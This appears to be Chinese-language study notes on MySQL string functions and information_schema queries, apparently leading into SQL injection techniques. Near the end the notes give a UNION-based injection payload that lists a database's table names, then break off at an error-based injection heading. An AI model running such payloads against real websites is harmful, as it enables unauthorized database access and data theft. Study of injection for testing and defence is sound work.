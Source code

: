 ### 查询 `msgboard` 表中的所有字段

```sql
SELECT COLUMN_NAME 
FROM information_schema.COLUMNS 
WHERE TABLE_NAME = 'msgboard';
```

### 使用 `concat()` 函数拼接多个字符串

```sql
SELECT CONCAT('M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------+
| concat('M','y','S','Q','L') |
+-----------------------------+
| MySQL                       |
+-----------------------------+
```

### 使用 `concat_ws()` 函数拼接多个字符串

```sql
SELECT CONCAT_WS('', 'M', 'y', 'S', 'Q', 'L');
```

结果：

```text
+-----------------------------------+
| concat_ws('','M','y','S','Q','L') |
+-----------------------------------+
| MySQL                             |
+-----------------------------------+
```

### 使用 `group_concat()` 函数将多行连接成一组

```sql
SELECT GROUP_CONCAT(actor) 
FROM moviesdata.allmovies;
```

### SQL 注入示例

```sql
1'union select 1,table_name from information_schema.tables where table_schema='msgboard' -- qwe
```

# SQL注入技巧与示例

## 1. 基于报错的SQL注入
